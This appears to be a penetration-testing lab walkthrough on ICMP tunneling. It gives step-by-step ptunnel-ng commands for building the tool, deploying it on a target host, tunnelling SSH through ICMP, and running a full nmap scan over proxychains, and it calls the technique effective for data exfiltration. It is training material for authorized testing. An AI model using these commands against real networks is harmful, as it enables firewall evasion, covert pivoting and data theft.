





### **INTRODUCTION**

ICMP tunneling enables traffic to be encapsulated within ICMP echo requests and responses, allowing data to bypass firewalls that permit ping traffic. This technique is particularly effective for data exfiltration and establishing tunnels to external servers.

1.  If ptunnel-ng is not already installed, clone the repository to your attack host using the following command:  
    `git clone https://github.com/utoni/ptunnel-ng.git`  
    
    
    
2.  After cloning the ptunnel-ng repository, navigate to the directory and run the `autogen.sh` script. Install the necessary dependencies using:  
    `cd ptunnel-ng && sudo apt install build-essential autoconf automake && sudo ./autogen.sh`  
    
    
    
3.  Once ptunnel-ng is set up on the attacker machine, transfer the repository to the target host (Refer to the File Transfer section for more details).  
    
    
    
4.  On the target host, start the ptunnel-ng server with the following command:  
    `sudo ./ptunnel-ng -r10.10.15.130 -R22`  
    
    
    
5.  On the attack machine, connect to the ptunnel-ng server using:  
    `sudo ./ptunnel-ng -p10.10.15.130 -l2222 -r10.10.15.130 -R22`  
    
    
    
6.  Tunnel an SSH connection through the ICMP tunnel by running:  
    `ssh -p22 -lubuntu 127.0.0.1`
    
7.  To perform a full Nmap scan through the ICMP tunnel using ProxyChains.  
    `proxychains nmap -sV -sT 172.16.4.3 -p-`